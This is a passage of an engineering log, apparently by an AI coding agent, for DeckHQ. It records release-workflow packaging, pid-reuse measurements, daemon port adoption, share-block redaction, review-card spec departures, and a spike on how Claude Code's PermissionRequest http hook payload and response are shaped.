   Homebrew tap is a second repository (`homebrew-deckhq`), a scoop bucket is
   a third, and `winget install DkPanseriya.DeckHQ` is a reviewed pull request
   to `microsoft/winget-pkgs`. None of the three exists, and a workflow with
   `contents: write` on *this* repository can create none of them. The job
   renders the five manifest files and attaches them to the release; each is
   usable from there today (`brew install --formula ./deckhq.rb`, `winget
   install --manifest <folder>`, `scoop install <url-to-deckhq.json>`), and
   each is exactly what gets committed to the tap, bucket or PR when those
   exist. `packaging/README.md` says so, per asset. **RAISE:** whether to
   create the tap and bucket repositories, and under which account, is the
   owner's call — the workflow can push to them once they exist and a token
   with access is provided, and not before.

2. **winget and scoop install a zip, not the npm tarball.** Neither can
   install an npm package: winget's installer types are exe/msi/msix/zip/
   portable and scoop shims executables. The job unpacks the published
   tarball, adds `packaging/deckhq.cmd` — two lines, `node
   "%~dp0package\bin\deckhq.mjs" %*` — and zips the result, then both
   manifests point at that zip with Node declared as a dependency
   (`OpenJS.NodeJS.LTS`, `nodejs-lts`). The installed tool is byte-for-byte
   the registry's; the launcher is the only addition. Homebrew installs the
   registry tarball directly. The zip's sha256 is computed in the job and the
   tarball's is checked against the registry's own `dist.integrity` before it
   is used, so neither manifest can carry a digest of bytes a user will not
   receive.

3. **A changelog gate before the publish.** Not in the plan. The release
   job's notes are the `## X.Y.Z` section of `CHANGELOG.md`; finding it missing
   after `npm publish` would leave a version on the registry with no release
   page and no way back. The publish job now runs
   `scripts/release/changelog-section.mjs "$TAG"` before `npm publish` and
   stops if the section is absent. The same check is a unit test — the version
   in `package.json` must have a section — so `npm test`, and therefore
   `prepublishOnly`, fails on a bump without an entry. That is a new failure
   mode for anyone bumping the version locally; it is the intended one.

4. **`npm@^11.5.1`, asserted, instead of `npm@latest`.** Per the brief. A
   tag push should not pick up whatever npm major shipped that morning; the
   trusted-publishing floor is what matters, and a step now proves the
   installed version meets it instead of assuming it.

5. **`gh release create`, not a marketplace action.** The GitHub CLI is on
   every hosted runner and is the same command `RELEASE-CHECKLIST.md` step 12
   already documents, so the workflow and the hand procedure agree. A re-run of
   the job after a partial failure finds the release already there and
   re-uploads the assets onto it rather than failing.

6. **`Architecture: neutral`** in the winget installer manifest, because a
   Node script is. A `winget-pkgs` reviewer may ask for `x64`; the generator
   is one line to change.

7. **The workflow defaults to `contents: read`.** The `release` job's comment
   claimed it was the only job in the file that can write to the repository,
   and that was not yet true: `verify` named no permissions at all, so its
   token took whatever the organisation's default scope is, which for a
   repository created before the read-only default is read-write. A
   workflow-level `permissions: contents: read` makes the claim structural —
   `release` raises itself and nothing else can. Verified by parsing the file:
   `verify` inherits read, `publish` is `contents: read` + `id-token: write`,
   `release` is the sole `contents: write`.

8. **`*.cmd text eol=crlf` in `.gitattributes`.** `.gitattributes` sets
   `* text=auto eol=lf`, so `packaging/deckhq.cmd` left a checkout with LF
   endings — including the Linux checkout in the `release` job that zips it
   for Windows users. `cmd.exe` tolerates LF for a two-line script and stops
   tolerating it as soon as one has a label or a `goto`, which is a trap for
   whoever edits the launcher next rather than a bug today. The launcher is
   now the one file in the tree checked out with CRLF.

**Measurement.** What could be verified on this machine: `publish.yml` parses
(js-yaml) into three jobs, with `contents: read` at the workflow level and
`contents: write` on `release` alone; `scripts/release/manifests.mjs` renders
against the real `package.json` and the three winget documents parse with
js-yaml; `changelog-section.mjs 1.2.0` prints the section and exits 1 for a
version with none; the npm floor comparison accepts 11.5.1, 11.6.0 and 12.0.0
and exits 1 for 11.5.0, 11.4.9 and 10.9.4; ten unit tests over both scripts;
`npm test` (453), `npm run lint`, `npm run format:check` green.

The zip step was rehearsed by hand, which is as close to the job as this
machine gets: `npm pack` produced the 42-file tarball, `tar -xzf` into a
staging directory satisfied the job's own `test -f
stage/package/bin/deckhq.mjs` guard, `packaging/deckhq.cmd` went in beside
it, and the launcher then **ran from that layout** — `deckhq.cmd --version`
printed `1.2.0` (which is also exactly what the Homebrew formula's `test do`
block asserts) and `deckhq.cmd doctor` printed a report. So the one thing in
the packaging path that is easy to get wrong and impossible to spot in YAML —
the relative path from the launcher to the bin — is proved rather than
reasoned about.

What could not: the release job itself. It has never run, and it cannot run
without a `v*` tag, which is the irreversible publish. The registry-side
retry, the `dist.integrity` cross-check, `zip` and `gh` on the runner, and
the asset upload are all written against documented behaviour and unexecuted.
WP-43's acceptance — "a `vX.Y.Z` tag produces a published package with the
provenance badge and a release page with no manual step after the tag" — is
still the owner's next tag to produce, after the one-time trusted-publisher
setup in the workflow's header.
## 82. WP-53 · The review follow-ups on the perf code: what closed, what is accepted, what was left to its owner

`08-PLAN-V2-100X.md` WP-53 lists five risks from the review of PRs #1–#4.
Four are closed here with tests; one is a documented, measured exposure rather
than a fix; one belongs to a file another agent owns and was not touched.

**(1) `pidAlive()` on Windows — verified, unchanged.** The function treats
`EPERM` as alive and everything else as dead, and the review asked whether a
vanished pid on Windows really surfaces as something other than `EPERM`. It was
measured rather than read off libuv's source, on the reference machine
(Windows 11, Node 24):

| `process.kill(pid, 0)` against | throws |
|---|---|
| a child that ran and exited | `ESRCH` |
| a pid that never existed (`0x7ffffffe`) | `ESRCH` |
| a child killed by us, handle still held by this process | `ESRCH` |
| the protected System process (pid 4) | `EPERM` |
| a live child | nothing |

So the two-way reading holds on Windows, where libuv answers signal 0 with
`OpenProcess` + `GetExitCodeProcess` rather than a signal: an exited process
whose handle someone still holds is reported by its exit code, not as alive.
4000 calls cost 53.5 ms, 13 µs each — §77's 0.055 ms per roster stands. A test
now spawns a real child, waits for it to exit, and asserts the roster retires
it within one poll and without a spawn; the existing test used only a pid that
never existed, which on Windows is a different code path.

**(1b) Pid reuse inside the 60 s TTL — accepted, bounded, measured.** The
review's case: a session exits and the OS hands its pid to another process
before the next probe, so the pid check reads the impostor as the session.

What the code already did, now pinned by a test: a pid the check has once seen
dead is *removed* from the cached roster, and nothing short of the next probe
puts a session back. So a pid reused *after* the check saw it dead cannot
resurrect anything — the roster is corrected by removal, not re-evaluated
every poll. The exposure that leaves is narrower than the review stated: the
exit **and** the reuse must both land inside one poll interval (5 s), before
any check ran. Only then does the impostor read alive, and it does so until the
TTL probe — up to 60 s.

How likely is that, on the platform that reuses pids most eagerly? Measured
here: 300 sequential `cmd /c exit` spawns in 9.7 s produced 16 reused pids; a
pid came back after a **minimum of 123 and a median of 155** further process
creations, the first reuse 4.8 s in. So the reuse half of the window needs on
the order of 25 process creations a second sustained across the 5 s the check
is blind, on top of the session exiting in that same 5 s. On Linux pids are
allocated sequentially up to `pid_max` and reuse inside 5 s needs thousands of
spawns a second; macOS is sequential to 99998.

Mechanisms weighed for closing it, and why none was taken:

- **Process start time as identity.** The right fix, and cheap only on Linux
  (`/proc/<pid>/stat`). Windows has no Node API for it; macOS needs `ps`.
  Both mean a spawn per pid per poll — the exact cost §77 removed — for a
  window that is narrowest precisely where a spawn-free check exists.
- **Force a probe when identity is uncertain.** The suggestion in the plan.
  Nothing cheap distinguishes "same pid, same process" from "same pid,
  different process", so there is no signal to trigger on. Forcing a probe
  whenever *any* roster pid died would spend a 609 ms spawn on the common
  transition the pid check handles for free, and would not help the case in
  question, which by definition no check saw.
- **Hooks.** Not a mechanism to add — it is already the answer where it
  matters. `SessionEnd` is authoritative and `_computeAgents` prefers
  `hookLive` over this roster whenever hooks are installed, so the exposure
  exists only on the degraded path. WP-36 (§83) removes the commonest way of
  ending up on that path by accident.

And what a wrong `live` costs if it happens: nothing user-owned. `live` is an
observation; `for_review` is sticky through it either way. The worst outcome is
a desk drawn occupied for up to 60 s after its session left.

So the window is accepted and stated in the code, here, and in a test that
pins its size: the impostor may read alive at TTL−5 s and must be gone the
moment the TTL probe answers. A third seam, `alive`, was added beside `probe`
and `now` so a pid can be made to die and return on cue without a real process.

**(2) and (5) The head-window scanner's cut cases.** Three tests against the
scanner directly — `_scanTopLevelFields`, exported for tests only — and three
end to end through `readDesktopSessions`, where `fullReads` proves the fallback
ran rather than the answer merely coming out right: a window cut inside a
string, one cut inside a number (five digits inside the window, five outside),
and one whose last byte is the backslash of an escaped quote — read only the
head, the string is unclosed; read naively past the backslash, the quote
looks like a close. All three answer null from the window, take the whole file,
and return the right fields. `endOfString()` on `"abc\` at end of text stays in
bounds and returns −1; the direct test also covers `\u00` cut mid-escape, an
escaped backslash then EOF, and the two complete-escape cases that must
decode. No scanner change was needed; the tests confirm the behaviour that was
there.

**(4) The desktop-cache mtime pins are proven, not assumed.** The tests pinned
mtimes in whole seconds and never checked the pin took. That let the "size
moved but mtime did not" test pass for the wrong reason on any filesystem that
rounded the timestamp — the re-read would have come from the mtime moving. The
helper now sets a millisecond value with a non-zero fraction of a second
(`…000_250`, `…000_750`), reads `mtimeMs` straight back, and asserts equality;
the size-only test additionally asserts the re-pinned value equals the first.
Round-trips exactly on NTFS here; a filesystem where it does not will now say
so instead of passing.

**(3) `publish.yml` — not touched.** The npm floor for trusted publishing is
another agent's file in this pass, so WP-53's fifth item and the second half of
its acceptance criterion ("`publish.yml` fails loudly on an npm below the
trusted-publishing floor") are not delivered by this package. Recorded so the
orchestrator does not accept WP-53 on the strength of this commit alone.

## 83. WP-36 · The daemon adopts the hooks' port, and refuses to start beside a DeckHQ that already has it

`08-PLAN-V2-100X.md` WP-36. Shipped as specified, with three decisions the
package description did not settle.

**The failure this removes.** Hooks are written with the port the daemon had at
install time. A daemon started later on a different port — the 4317 default
after an install on 4400, or 4318 after the `EADDRINUSE` walk — is the one
broken state that looks healthy from every surface at once: the settings file
is valid, the header claims exact state, and every hook event posts into a
void. §75 gave `doctor` the job of reporting it. This stops the daemon
creating it.

Now, with no port named: if the installed hooks post to a free port, the daemon
listens there and logs one line saying why. The header then reads `installed`
and the reinstall banner does not appear.

**Decision 1 — an explicit port is never overridden.** Adoption is a CLI
decision, passed to `startDaemon` as `adoptHooksPort` and off by default;
`--port 4400` and `DECKHQ_PORT=4400` both suppress it. Naming a port is a
request to be on that port, and the banner is the honest report of what that
costs. `DECKHQ_PORT=` (set but empty) reads as unset, because that is what a
shell wrapper clearing the variable means. Embedders and the 400-odd tests that
pass a port keep the old behaviour untouched — nothing in the suite changed.

**Decision 2 — the hooks' port held by another DeckHQ is a refusal, not a
walk.** The plan says "exit with a one-line message naming it". Starting
anyway would bind 4318 and produce precisely the degraded daemon this package
exists to prevent, with the added insult that the healthy one next door is
getting all the events. So `startDaemon` throws `DeckhqAlreadyRunningError`
**before the store is opened or anything is bound** — the refusal leaves no
trace, and a test asserts the requested port is still free afterwards — and
`bin/deckhq.mjs` prints one line with the URL and exits 0. Exit 0, not 1:
"DeckHQ is already up" is the state the user wanted. A test spawns the real
binary to assert one line of stdout and no start banner, because §76 is the
standing reminder that a command's contract includes how it ends.

**Decision 3 — a stranger on the hooks' port falls back rather than fails.**
Something else on 4400 is not ours to reason about. The daemon logs what it
found, starts on the requested port, and the header's banner offers the
reinstall as before. "Ours" is identified the way §75's `doctor` identifies a
daemon — a well-formed `/api/state` snapshot — so the two surfaces cannot
disagree about what a DeckHQ is.

**Cost, measured.** Two loopback round trips at most, once, before the server
binds: a bare TCP connect (refused immediately when the port is free; 500 ms
ceiling) and, only when something answered, one `/api/state` fetch with a
1500 ms ceiling. On the common path — hooks installed, port free — it is the
settings read plus one refused connect: **median 0.87 ms** over 20 runs on the
reference machine, min 0.28, max 9.8. Nothing is added to the poll loop, and
nothing is added to a start that names a port.

**Accepted limits.** The port is taken from the first adapter that reports one,
so a machine whose two runtimes' hooks point at different ports adopts the
first and leaves the second's banner up; there is one hook-capable adapter
today and no honest way to satisfy both. Adoption reads the settings file once
at startup, so hooks reinstalled at another port while the daemon runs are not
followed — the reinstall in the header aims at the running daemon, which is the
only way that happens in practice.

## 84. WP-44 · `doctor --share`: what the pasteable block leaves out, and the one line the PM still owns

`08-PLAN-V2-100X.md` WP-44: "prints a fenced block of the report with no
paths, no project names and the pitch line as the last line. Governed by the
same honesty tests as §74." Shipped as `deckhq doctor --share`. Four decisions
the description left open.

**Decision 1 — the block is the whole report, not a highlight.** The temptation
in a launch asset is to print the biggest number and stop. What makes this
postable is that a reader can run the same command on their own machine and
check it, so the block carries every row the report does — including
`waiting on you 0`, which on the reference machine is what it says today. A
selected highlight would make the asset unfalsifiable, which is the failure
mode §74 was written after.

**Decision 2 — what is dropped, and why each one is not a number.** Against
`renderReport`: the state **path** (its verdict, writable or not, stays — that
is the part a reader can act on); every free-text problem, note and
per-runtime error; and the hook port. The free text is where a path actually
lives in practice — an adapter error is a filesystem error and names the file
it failed on — and none of it means anything to a stranger. When the report is
not `ok`, the block says `! 2 problems — run \`deckhq doctor\` here for the
detail`: the count is the honest part, the message is the private part. The
port is dropped because a port number tells a reader nothing about whether
hooks are delivering, which is what the row is for.

**Decision 3 — the date is to the day.** A UTC timestamp to the hour would
publish when a person was at their desk, in exchange for nothing.

**Decision 4 — a redaction pass, even though nothing should reach it.** Project
names cannot leak by construction: `collectReport` turns working directories
into a distinct count and never keeps the strings, and the block is assembled
from counts and fixed phrases. Two fields are still strings this file did not
write — a runtime's `version()` and an adapter's error message — so
`redact()` runs over the assembled text and replaces the home directory and
anything hanging off it, `C:\…` and `C:/…`, `\server\share`, `~/…`, absolute
POSIX paths, and the machine's own name. It is defence in depth for a block
whose whole purpose is to be pasted somewhere public, and it is unit-tested
directly, including the two cases that made it non-obvious: the
separator-swapped home directory is a substring of the real Windows path
(`C:\Users\ada` contains `\Users\ada`, and replacing only the tail would leave
`C:[path]` behind), so home matching is anchored at the start of a token; and a
hostname shorter than three characters is indistinguishable from a word, so it
is left alone rather than shredding the text it exists to protect. A test
pins that the report's own vocabulary — `70 sessions across 18 projects`,
`127.0.0.1`, `none. no outbound sockets.` — passes through untouched.

**Flag behaviour.** `--share` prints the block and nothing else: it is meant to
be selected whole or piped into a clipboard command, and a second copy of the
same numbers above it makes both jobs harder. With `--json` the block becomes
one more field (`share`, `null` when the flag is absent), because "exactly one
JSON document on stdout" is that mode's contract. The exit code is the
report's, unchanged.

**Acceptance, checked.** Nine new tests: the fence and the pitch as its last
line inside it; the absence of the fixture's two scanned directory names
(`/Users/ada/skunkworks-alpha`, `C:/Dk/Projects/ClientAcme`) and of their
fragments; the absence of any path shape, the state path, the machine name and
the port; a problem counted rather than quoted; `redact()` directly; the three
flag surfaces (`--share`, `--share --json`, `--help`); and a machine with no
runtime and no daemon, where the block must still be honest and printable. Two
existing tests were amended: the `--json` shape test now pins `share` in the
document's key set, and the §74 honesty invariant runs against three surfaces
rather than two — the report, the proof card and this block — so the retired
overclaim cannot come back through the launch asset. 458 tests to 467.

**Left to its owner.** The pitch itself. `07-AGENT-HANDOVERS.md` gives the PM
the wording review of this asset, so the line is the named export `PITCH` in
`src/cli/doctor.mjs` rather than a string inside a template, and today it is
one line condensed from `08-PLAN-V2-100X.md` §1.3:

> DeckHQ — every AI coding session on your machine, on one office floor. npx deckhq · local, private, MIT.

§1.3's full pitch is three sentences and 40 words; a block that people paste
into a thread earns one line, and the sentence that was cut ("it sees the ones
your terminal forgot, and it remembers what's waiting on you even after you've
read it") is the one the rows above it are already demonstrating. That is a
judgement about copy, not about code, and the PM's to overrule.
## 85. WP-08's review card: seven small departures from `05` §4

The layout, the markdown rendering, the "what changed" section and the three
weighted keys all landed as specified. Seven things differ from the letter of
`docs/plan/05-GUI-UX-SPEC.md` §4 and `06-ENGINEERING-WORKPLAN.md` WP-08, none
of them a judgement call anyone should have to reconstruct from the diff.

**1. `git diff --numstat`, not `git diff --stat`.** §4.2 and WP-08 both name
`--stat`. `--stat` is the human form: it truncates long paths with `…`, pads to
the terminal width, and scales its bar graph, so parsing it back into numbers
means undoing formatting that is deliberately lossy. `--numstat` is the same
three figures, tab-separated, with paths intact and binary files reported as
`-  -`. The section renders the identical content — `+142  −18  3 files` over
per-file rows — so this is a change of source, not of what is shown.
`test/unit/changes.test.mjs` pins the parse, including a rename (which
`--numstat` gives as `old\tnew`, and the reader wants the new path) and a
binary file (which shows `bin` and no counts).

**2. `[ open the diff ]` is not there.** The §4.1 mockup ends the changes
section with that button. It is WP-47 (`05` §12, "in-panel diff and open in
editor", `2d`, `P1`, listed as *after WP-08*), so shipping it here would be
building the next package. The section ends at the file table.

**3. The renderer is 259 lines of code, not "~150".** WP-08's estimate was for
"headings, paragraphs, lists, fences, inline code, bold, italic and
links-as-text". `public/markdown.js` covers all of that plus block quotes,
thematic breaks, nested lists and ordered lists with their real start number —
because agents write those, and an unhandled block falling through to a
paragraph turns a nested list into one run-on line. The estimate was for the
narrower subset and was not wrong about it; the two-stage split it asks for
(`parseMarkdown()` touches no DOM at all; `renderMarkdown()` builds it) is what
made the wider coverage cheap and is what the `SECURITY:` test can check.

**4. The rest of the conversation is behind a disclosure the mockup does not
show.** §4.1 draws `WHAT IT SAID` and nothing beneath it, and §4.2 explains
why: the last message is "the first thing you see". But the earlier turns
cannot simply be deleted from the panel — they were reachable before this
package and reviewing a reply sometimes needs the question. They sit in a
closed `<details>`: *earlier in this conversation · 2 messages*. Closed by
default, so the reading order §4.2 wants is intact, and one click from the
material it hides.

**5. The third key is not always Bench.** §4.2 specifies `3 Bench`. Bench is
not a legal action on an agent that is already benched, and a key wired to an
illegal action either does nothing or needs an error. Slot 3 therefore carries
the state's own third action: `Bench` for anyone on the floor, `Recall` for
someone in the lounge, `Rehire` for someone let go — read off `legalActions()`,
which already existed. For every agent the review card is actually about, it is
Bench.

**6. `no-repo` is a fifth outcome.** WP-08's accepted-when names four: dirty,
clean, no git, deleted directory. A directory that exists and simply is not a
repository is none of those, and it is the common case for anyone who runs an
agent in a scratch folder — three of the six demo projects. It reads *"not a
git repository"*, distinct from *"git is not installed, so nothing here can be
read"* (`no-git`), because the two ask different things of the reader. All five
are asserted.

**7. `approveText` has no settings UI.** §4.2 requires the affirmative to be
configurable and it is — `DEFAULT_SETTINGS.approveText`, patchable over
`PATCH /api/settings`, trimmed, capped at 500 characters and falling back to
`"Yes, go ahead."` when blank, because an approve key that sent an empty string
would be a silent no-op. There is no control for it because, per §5.4, there is
no settings surface in the product at all yet; it joins stall window, poll
interval and the rest as API-only until that sheet is built. The button's
tooltip shows what it will send, so the current value is never a secret.

**The invariant, checked statically rather than trusted.** WP-08's last
accepted-when — *no path in this package calls `/api/ack` except an explicit
button or number key* — is a claim about code that no behavioural test can
make, so `test/unit/panel-invariant.test.mjs` reads the client source with
comments stripped and asserts it: `/api/ack` appears exactly once in
`public/panel.js` and nowhere else under `public/`; that one call sits inside
`performAction()`; `open`, `close`, `refresh`, `renderChrome`, `renderSaid`,
`renderThread`, `renderChanges`, `loadConversation`, `loadChanges`,
`loadResumeTargets` and `sendText` contain no call to it; `app.js` reaches it
exactly twice, both inside `handleKeydown`. It also asserts that `2 Approve`
routes to `sendText()` and never to ack — the review is discharged by the
daemon when the runtime records the user turn, never by the client guessing —
and that keys `1` and `2` reach `performAction` not at all. The same file
carries the `SECURITY:` sweep: no module under `public/` mentions `innerHTML`,
`outerHTML`, `insertAdjacentHTML`, `DOMParser` or `createContextualFragment`.

**What the screenshot proves** (`docs/media/panel-review-card.png`, rule 10).
The demo floor's `for_review` fixtures now carry markdown — a paragraph, a
bulleted list with inline code, a fenced block — and the fixture builds real
working trees under its own temp root, one of each shape the section draws: a
dirty repository, a clean one, three plain directories, and one project whose
directory does not exist. So the panel in that PNG is reading real
`git diff --numstat` output, and it reports `+142  −18  3 files` over
`src/events/backfill.ts +98 −4`, `src/events/index.ts +21 −8`,
`test/backfill.test.ts +23 −6` — §4.1's own numbers, at §4.1's own
`waiting 1d 2h`. Reproduced with
`npm run demo` and
`node scripts/capture-floor.mjs --url http://127.0.0.1:4499/ --width 1600 --height 1000 --settle 9000 --press j --out docs/media/panel-review-card.png`;
`--press` now takes a sequence of keys rather than one, so a shot can be aimed
at a chosen place in the needs-you queue.

**Two things the fixture changed that are not about the panel.** The demo's
project directories used to be `C:\code` or `~/code` — paths it never created
and only ever named. The review card reads the working tree, so they had to
become real, and they are created inside the fixture root that the demo already
removes on exit; nothing is written outside it, and a machine without `git`
still gets a floor (the repositories are skipped, and the section says so).
## 86. WP-19 spike — `PermissionRequest` is real, and its response shape is not the documented one

**Go.** The route in [`08`](plan/08-PLAN-V2-100X.md) §3.0.2 / B4 holds: a
`PermissionRequest` hook of type `http`, pointed at the daemon, can answer a
permission prompt raised by an interactive Claude Code session DeckHQ never
spawned, and silence falls back to the terminal prompt. Two things in the plan
are wrong in detail and one is wrong in kind; all three are cheap to fix and
none of them blocks the build.

Measured against **Claude Code 2.1.231 native, win32-arm64, commit
`bbff368ec698`**, the build on the reference machine on 3 September.

### 86.1 What was verified by experiment, and what was not

The end-to-end run — a live session raising a prompt, DeckHQ answering it, the
session continuing — **could not be executed.** The CLI's stored OAuth token is
expired (`claude auth status` reports `loggedIn: true`, every inference call
returns `401 OAuth access token has expired. Re-authenticate to continue.`), no
`ANTHROPIC_API_KEY` or `CLAUDE_CODE_OAUTH_TOKEN` is available to a child
process, and re-authenticating is an interactive browser flow an agent must not
perform. So no tool call could be provoked, and the listener registered for the
attempt was never called.

That is the honest boundary, and by rule 11 in `08` §1.1 it means the
acceptance criterion in WP-19 — _"verified end to end on the reference
machine"_ — is **not yet met and must be met before this feature appears in a
README, a tweet or a pricing page.** What follows is verified by two weaker
methods that between them still settle every question the spike was asked,
because the second one reads the shipped implementation rather than its prose.

**Verified by experiment** (ran on this machine):

- `claude doctor` validates the `hooks` block of settings files in the working
  directory and names the failing path. A block with `"type": "https"`,
  `"url": "not a url"` and `"timeout": -5` is rejected with
  `hooks.PermissionRequest.0.hooks.0.type: Invalid input`. The same block with
  `"type": "http"`, a loopback `url`, a `timeout`, a `statusMessage` and an
  extra `"_deckhq": true` validates **clean**. So `PermissionRequest` is a
  recognised event, `http` is a legal type for it, and the tagged-entry
  discipline the existing hooks use in `src/adapters/claude-code/hooks.mjs`
  survives validation unchanged — unknown keys are tolerated, not rejected.
- `--permission-prompt-tool mcp__x__y` is still accepted by the argument parser
  on 2.1.231 (it fails later, at auth, not at parse) but it is **no longer
  listed in `claude --help`**. It is a hidden flag now. See §86.8.
- `--settings <file>` layers a settings file on top of the real scopes without
  writing to any of them. This is the safe way to run the spike, and it is what
  `scripts/spike-permission/settings.sample.json` is for. Nothing was written to
  `~/.claude/settings.json` at any point.
- The prototype in `scripts/spike-permission/holding-endpoint.mjs` holds a
  `PermissionRequest` POST open indefinitely, lists it on `GET /pending`, and on
  `POST /decide` answers the held socket with a body that matches the runtime's
  own parser schema below. Driven with a realistic payload it returned:

  ```json
  {"hookSpecificOutput":{"hookEventName":"PermissionRequest","decision":{"behavior":"allow",
   "updatedPermissions":[{"type":"addRules","rules":[{"toolName":"Bash","ruleContent":"npm test:*"}],
   "behavior":"allow","destination":"session"}]}}}
  ```

**Verified by reading the installed build.** The 2.1.231 native binary embeds
its JavaScript as readable text, so the zod schemas and the permission pipeline
can be read straight out of `~/.local/share/claude/versions/2.1.231`.
Everything in §86.2–§86.5 is quoted from there. This is stronger evidence than
the documentation, and in one important case it **contradicts** it.

**Read from documentation only:** the Codex side (§86.7) and the
`--permission-prompt-tool` output contract (§86.8).

### 86.2 The request payload

Built by `executePermissionRequestHooks`:

```js
let l = { ...fg(n.session, Wt(), o, n),
          hook_event_name: "PermissionRequest",
          tool_name: e, tool_input: r, permission_suggestions: i };
```

and `fg` is the common-field builder:

```js
return { session_id: e.id, transcript_path: oH(e.id), cwd: t,
         prompt_id: PZe() ?? undefined, permission_mode: r,
         agent_id: n?.agentId, agent_type: o, effort: a };
```

So the POST body is:

```json
{
  "session_id": "bf6a1bf1-…",
  "transcript_path": "…/.claude/projects/…/….jsonl",
  "cwd": "C:\\Dk\\Projects\\1_Project_DeckHQ",
  "prompt_id": "550e8400-…",
  "permission_mode": "default",
  "agent_id": "…",
  "agent_type": "general-purpose",
  "effort": { "level": "…" },
  "hook_event_name": "PermissionRequest",
  "tool_name": "Bash",
  "tool_input": { "command": "npm test", "description": "Run test suite" },
  "tool_use_id": "toolu_01ABC…",
  "permission_suggestions": [
    {
      "type": "addRules",
      "rules": [{ "toolName": "Bash", "ruleContent": "npm test:*" }],
      "behavior": "allow",
      "destination": "localSettings"
    }
  ]
}
```

`permission_suggestions` is **not in the documentation** and it is the single
most useful field in the payload: it is the array of permission updates the
terminal prompt itself would have offered as "don't ask again for this". It
gives the panel its third button for free, with the runtime's own rule text
rather than a rule DeckHQ guessed. `tool_use_id` is the natural correlation key.
Everything DeckHQ needs to render a card — which session, which project, which
tool, the literal command — arrives in one POST.

### 86.3 The response shape. The docs are wrong here

The prose documentation at `code.claude.com/docs/en/hooks` presents

```json
{ "hookSpecificOutput": { "hookEventName": "PermissionRequest",
                          "decision": "allow" } }
```

with sibling `reason`, `updatedInput`,
`updatedPermissions: {allow, allowForSession}` and `interrupt` fields. **The
installed build accepts none of that.** Its parser is a discriminated union in
which `decision` is an **object**:

```js
be({ hookEventName: It("PermissionRequest"),
     decision: vs([
       be({ behavior: It("allow"),
            updatedInput: no(F(), oo()).optional(),
            updatedPermissions: gt(uRt()).optional() }),
       be({ behavior: It("deny"),
            message: F().optional(),
            interrupt: qt().optional() })
     ]) })
```

Three consequences:

1. `decision` is `{ "behavior": "allow" | "deny", … }`. A bare string fails
   validation, and a failed hook body is a non-blocking error — the decision is
   simply not applied and the prompt stays on screen. **A DeckHQ that emitted
   the documented shape would look like it was doing nothing at all.**
2. There is **no `"ask"` behaviour** in the hook's output union, and no `reason`
   on the allow branch. "Leave it to the terminal" is expressed by answering
   nothing, not by an `ask` decision.
3. `updatedPermissions` is an **array** of permission-update objects, not the
   documented `{allow, allowForSession}` object:

   ```js
   uRt = OE("type", [
     be({ type: It("addRules"),          rules: gt(C7o()), behavior: k7o(), destination: sMr() }),
     be({ type: It("replaceRules"),      rules: gt(C7o()), behavior: k7o(), destination: sMr() }),
     be({ type: It("removeRules"),       rules: gt(C7o()), behavior: k7o(), destination: sMr() }),
     be({ type: It("setMode"),           mode: cln(),                       destination: sMr() }),
     be({ type: It("addDirectories"),    directories: gt(F()),              destination: sMr() }),
     be({ type: It("removeDirectories"), directories: gt(F()),              destination: sMr() })
   ])
   C7o = be({ toolName: F(), ruleContent: F().optional() })
   k7o = Mr(["allow", "deny", "ask"])
   sMr = Mr(["userSettings", "projectSettings", "localSettings", "session", "cliArg"])
   ```

So the three buttons are:

| Panel                       | Response body                                                                                                              |
| --------------------------- | -------------------------------------------------------------------------------------------------------------------------- |
| **Allow**                   | `{"hookSpecificOutput":{"hookEventName":"PermissionRequest","decision":{"behavior":"allow"}}}`                              |
| **Deny**                    | `…"decision":{"behavior":"deny","message":"Denied from DeckHQ."}`                                                           |
| **Allow for this session**  | `…"decision":{"behavior":"allow","updatedPermissions":[ <a suggestion from the request, `destination` rewritten to `"session"`> ]}` |

`destination: "session"` is the whole "for this session" mechanism, and it is
why §86.2's `permission_suggestions` matters: DeckHQ retargets a suggestion it
was handed rather than minting rule syntax of its own. `"userSettings"`,
`"projectSettings"` and `"localSettings"` write to the user's settings files and
**DeckHQ must never send them** — that is a permanent grant made from a web
panel, and it is not the button the panel offers.

Two further clauses in the consumer bear on the build:

- `interrupt: true` on a deny also calls `abortController.abort()`, killing the
  turn. DeckHQ's Deny must **not** set it. Denying a command is not the same as
  stopping the agent, and the two must stay separate actions.
- `if (!g.updatedInput && e.requiresUserInteraction?.()) return null` — for
  tools whose approval card _is_ the interaction surface (`AskUserQuestion`,
  `ExitPlanMode`, MCP tools flagged `anthropic/requiresUserInteraction`) a hook
  allow is discarded and the user must answer in the session. The runtime's own
  remote-control wire carries the matching flag and describes it as _"True when
  one-tap Approve/Deny must not be offered … Either way the user has to open the
  session to answer."_ The panel needs a fourth state for this: **"answer in the
  terminal"**, with no buttons. See §86.5.

### 86.4 The `http` type, its timeout, and silence

The `http` hook schema, verbatim from the build:

```js
be({ type: It("http"), url: F().url(), if: dln(),
     timeout: ct().positive().optional(),   // seconds
     headers: no(F(), F()).optional(),
     allowedEnvVars: gt(F()).optional(),
     statusMessage: F().optional(),
     once: qt().optional() })
```

- **Timeout.** `var Ng = 600000` and
  `executePermissionRequestHooks(…, a = Ng)` — the default is **600 000 ms, ten
  minutes**, per request, and `timeout` overrides it in seconds. Ten minutes is
  a genuinely useful hold. It is not the 30 s that `UserPromptSubmit` gets
  (`var AWu = 30000`).
- **The body.** `POST`, `Content-Type: application/json`, response parsed by the
  same JSON-output schema as a command hook's stdout. An empty body is _"HTTP
  hook returned empty body, treating as empty JSON object"_; a body not starting
  with `{` is _"HTTP hook must return JSON, but got non-JSON response body"_.
  Both are non-blocking errors: no decision, prompt stays.
- **Silence falls through, confirmed in code.** The consumer loops the hook
  results and returns a decision only on `behavior === "allow" | "deny"`;
  otherwise it falls out of the loop and returns `undefined`. No hook, no
  answer, a malformed answer, a refused connection, a closed daemon — all the
  same: the terminal prompt is what happens. **A closed DeckHQ cannot block a
  session.** This is the load-bearing fact for B4 and the one that was most
  worth checking.
- **The terminal prompt is shown _while_ the hook runs.** The hook is fired as a
  detached task beside the prompt UI (`if (!s) (async () => { … let x = await
t.runHooks(…); … d(x) })()`), racing the on-screen prompt and the
  remote-control watcher. Whichever answers first resolves the decision and
  cancels the others. So both surfaces are live at once and the user can answer
  in either. DeckHQ answering dismisses the terminal prompt; the user answering
  in the terminal closes our socket, which the prototype treats as a withdrawal.
- **`PermissionRequest` fires only when a prompt would otherwise appear.** The
  caller evaluates the normal rules first (`let a = s ?? await yI(…)`) and
  consults the hook only once the outcome is _ask_. This is unlike
  `PreToolUse`, which runs for every call. It is exactly the event DeckHQ wants
  — one POST per raised hand, none for the thousands of allowed calls — and it
  is worth stating because the published permission-flow diagram puts "Hooks" at
  step 1 and invites the opposite conclusion.
